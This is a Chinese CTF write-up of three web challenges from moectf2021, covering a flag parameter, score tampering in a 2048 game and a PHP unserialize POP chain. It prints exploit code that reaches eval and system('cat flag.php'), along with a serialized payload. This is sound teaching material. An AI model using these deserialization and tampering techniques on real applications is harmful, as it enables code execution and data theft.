 # Writeup for Web

临时接到出web题的任务，于是就在moectf2021里选了三道题，大家也可以参考官方writeup.
## get_problem
发现我们只需要向ats传入flag参数我们就能获得flag

**payload:**
```php
?ats=flag
```

## 2048
在进行完一把游戏之后，我们可以发现我们需要50000分获得flag，~~于是我们可以直接玩到50000分~~ 我们在游戏结束之后通过抓包发现存在传入flag.php的score参数，传输的是本次游戏的分数，我们将分数改为大于50000的任意数字便可得到flag


## unserilize
这道题考的是一个简单的pop链,我们通过简单构造便可获得
```php
<?php

class entrance
{
    public $start;

    function __construct($start)
    {
        $this->start = $start;
    }

    function __destruct()
    {
        $this->start->helloworld();
    }
}

class springboard
{
    public $middle;

    function __call($name, $arguments)
    {
        echo $this->middle->hs;
    }
}

class evil
{
    public $end;

    function __construct($end)
    {
        $this->end = $end;
    }

    function __get($Attribute)
    {
        eval($this->end);
    }
}

if(isset($_GET['serialize'])) {
    unserialize($_GET['serialize']);
} else {
    highlight_file(__FILE__);
}

$a = new entrance(new springboard());
$a->start->middle = new evil("'system('cat flag.php');");
echo serialize($a);
```
把输出的字符串get方法传到 serialize 里便可以得到flag
**payload**
```php
?serialize=O:8:"entrance":1:{s:5:"start";O:11:"springboard":1:{s:6:"middle";O:4:"evil":1:{s:3:"end";s:2:"ls";}}}
```

**PS**

 不出意外的话，这道题应该是没有意外的。但是我在搭靶机的时候忘记把里面的动态 flag 删掉了，导致有几位大佬在反序列化之后直接抓到了 flag 而忽略了本文件夹里的 flag.php 文件，然后 flag.php 也没有设置访问权限限制，导致了耽误了大家的时间。在这里给各位大佬说一声对不起 (orz orz orz) 。